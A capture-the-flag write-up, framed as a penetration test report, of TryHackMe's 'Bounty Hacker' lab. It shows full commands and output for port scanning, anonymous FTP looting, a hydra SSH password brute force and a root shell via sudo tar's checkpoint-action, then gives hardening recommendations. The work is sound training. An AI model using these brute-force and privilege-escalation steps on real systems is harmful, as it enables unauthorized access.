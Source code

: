 # Bounty Hacker CTF


## Executive summary
Anonymous FTP Access: The system's FTP server permitted anonymous access, which could allow malicious actors to retrieve sensitive files, in this case, potential passwords and usernames.
SSH Vulnerability: A brute force attack on the SSH service using the revealed credentials was successful, indicating a weak password security mechanism in place.
Privilege Escalation: The system had misconfigured user permissions, enabling an authenticated user to gain full root access through command manipulation.

## **Penetration Testing Report**
### **Introduction:**

This report details the penetration test performed on the target system with IP address 10.10.207.64, known as "bounty-hacker" from the TryHackMe platform. Our objective was to identify vulnerabilities and exploit them to gain unauthorized access.

### **Scope:**
- **Date**: 9/28/2023
- **Target System**: 10.10.207.64
- **Platform**: TryHackMe
- **Challenge Name**: bounty-hacker

### **Findings:**

### 1. Service Enumeration:

Using the **`nmap`** scan, we identified three open ports:

```yaml
──(root㉿kali)-[~/bounty-hacker]
└─$ nmap -A -oN bounty_scan.txt 10.10.207.64
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 20:39 CEST
Nmap scan report for 10.10.207.64
Host is up (0.058s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.83
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.67 seconds
```

- 21/tcp: FTP (vsFTPd 3.0.3) with anonymous login allowed
- 22/tcp: SSH (OpenSSH 7.2p2 Ubuntu 4ubuntu2.8)
- 80/tcp: HTTP (Apache httpd 2.4.18)

### 2. FTP Exploration:

Anonymous login was allowed on the FTP server. Files retrieved from the server:

```yaml
ftp> ls -l
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

- **`locks.txt`**: Possibly a list of passwords.
- **`task.txt`**: Contained tasks and revealed the username "lin".
    
    ```yaml
    ┌──(root㉿kali)-[bounty-hacker]
    └─# cat task.txt                                                                                                                          
    1.) Protect Vicious.
    2.) Plan for Red Eye pickup on the moon.
    
    -lin
    ```
    

### 3. Web Service Exploration:

**`gobuster`** identified the **`/images`** directory, but nothing of significant interest was found in this directory.

```yaml
┌──(root㉿kali)-[bounty-hacker]
└─# gobuster dir -w /usr/share/wordlists/dirb/big.txt --url http://10.10.207.64                                                           
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.207.64/images/]
/server-status        (Status: 403) [Size: 277]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished

```

### 4. SSH Brute Force:

Using **`hydra`**, we performed a brute force attack on the SSH service with the username "lin" and the password list from **`locks.txt`**. This successfully revealed the password for "lin" as **`RedDr4gonSynd1cat3`**.

```yaml
┌──(root㉿kali)-[bounty-hacker]
└─# hydra -l lin -P locks.txt 10.10.207.64 ssh -t 16                                                                                     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-28 21:04:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.207.64:22/
[22][ssh] host: 10.10.207.64   login: lin   password: RedDr4gonSynd1cat3
```

```yaml
┌──(root㉿kali)-[bounty-hacker]
└─# ssh lin@10.10.207.64
lin@10.10.207.64's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)
```

### 5. Privilege Escalation:

```yaml
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

After gaining SSH access, we found that user "lin" can run **`/bin/tar`** as root without a password, as revealed by **`sudo -l`**. By leveraging this, we executed **`tar`** with the **`--checkpoint-action=exec`** option to spawn a shell with root privileges.

```yaml
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
```

### **Conclusion:**

The system "bounty-hacker" had multiple vulnerabilities:

1. Anonymous FTP access that revealed potential usernames and password lists.
2. Weak password for the SSH user "lin".
3. Misconfigured sudo permissions allowing the execution of **`tar`** as root.

Successfully exploiting these vulnerabilities allowed us to escalate privileges and obtain root access to the target system.

### **Recommendations:**

1. **Secure FTP**: Disable anonymous login on the FTP server and ensure that it uses only necessary accounts with strong, unique passwords.
2. **SSH Hardening**: Use strong and unique passwords. Consider implementing SSH keys for authentication and disabling password-based authentication.
3. **Sudo Permissions**: Review and restrict **`sudo`** permissions. Ensure users can only run necessary commands and avoid giving access to commands that can be exploited for privilege escalation.
4. **Regular Patching**: Ensure that all services and the operating system are updated regularly to avoid known vulnerabilities.

---

This report is a brief overview of the steps taken during the challenge and the vulnerabilities found. It's important to understand that in a real-world scenario, much more detailed documentation, including risk assessments and potential business impacts, would be required.